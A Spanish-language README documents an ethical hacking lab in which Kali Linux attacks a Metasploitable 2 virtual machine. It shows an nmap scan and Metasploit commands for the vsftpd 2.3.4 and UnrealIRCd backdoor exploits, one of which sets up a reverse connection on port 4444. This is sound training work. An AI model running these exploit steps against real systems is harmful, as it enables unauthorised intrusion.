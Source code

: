 # LAB HACK ET 1 – Laboratorio de Hacking Ético con Kali y Metasploitable 2

## Descripción
Este laboratorio demuestra el uso de herramientas como `nmap` y `Metasploit` para realizar pruebas de penetración en un entorno controlado usando:

- Kali Linux como máquina atacante
- Metasploitable 2 como máquina víctima

## Herramientas
- Kali Linux 2025.2
- Metasploitable 2
- VMware Workstation
- nmap
- Metasploit Framework (msfconsole)

## Fases

### Fase 1 – Reconocimiento con nmap
```bash
nmap -sS -sV -O 192.168.20.129 -oN scan1.txt
```

### Fase 2 – Explotación

### Exploit 1: vsftpd 2.3.4 Backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.20.129
run
```
### Exploit 2: UnrealIRCd Backdoor
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.20.129
set LHOST 192.168.20.128
set LPORT 4444
run
```
## Evidencias

Las evidencias se encuentran en el archivo PDF LAB_HACK_ET_1.pdf y en las imagenes de evidencias.

## Conclusiones

Se logró comprometer completamente la máquina víctima.

Se aplicaron técnicas básicas de pentesting con herramientas estándar.

Buen ejemplo de práctica en laboratorio cerrado y ético.
